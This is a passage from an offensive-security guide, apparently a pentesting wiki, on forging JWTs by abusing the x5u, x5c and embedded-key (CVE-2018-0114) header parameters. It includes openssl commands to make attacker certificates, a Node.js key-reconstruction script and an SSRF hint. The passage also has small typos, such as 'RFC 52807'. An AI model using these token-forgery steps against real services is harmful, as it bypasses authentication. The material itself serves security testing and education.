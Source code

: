 X.509 URL. A URI pointing to a set of X.509 (a certificate format standard) public certificates encoded in PEM form. The first certificate in the set must be the one used to sign this JWT. The subsequent certificates each sign the previous one, thus completing the certificate chain. X.509 is defined in RFC 52807 . Transport security is required to transfer the certificates.

Try to **change this header to an URL under your control** and check if any request is received. In that case you **could tamper the JWT**.

To forge a new token using a certificate controlled by you, you need to create the certificate and extract the public and private keys:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```

Then you can use for example [**jwt.io**](https://jwt.io) to create the new JWT with the **created public and private keys and pointing the parameter x5u to the certificate .crt created.**

![](<../.gitbook/assets/image (956).png>)

You can also abuse both of these vulns **for SSRFs**.

#### x5c

This parameter may contain the **certificate in base64**:

![](<../.gitbook/assets/image (1119).png>)

If the attacker **generates a self-signed certificate** and creates a forged token using the corresponding private key and replace the "x5c" parameter’s value with the newly generatedcertificate and modifies the other parameters, namely n, e and x5t then essentially the forgedtoken would get accepted by the server.

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -outattacker.crt
openssl x509 -in attacker.crt -text
```

### Embedded Public Key (CVE-2018-0114)

If the JWT has embedded a public key like in the following scenario:

![](<../.gitbook/assets/image (624).png>)

Using the following nodejs script it's possible to generate a public key from that data:

```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
